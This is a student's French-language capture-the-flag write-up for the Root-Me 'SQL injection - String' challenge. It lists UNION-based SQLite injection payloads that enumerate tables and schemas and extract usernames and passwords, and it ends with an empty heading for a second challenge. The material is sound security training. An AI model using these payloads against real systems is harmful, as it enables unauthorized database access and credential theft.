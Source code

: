 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

Database version : SQLite3

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19






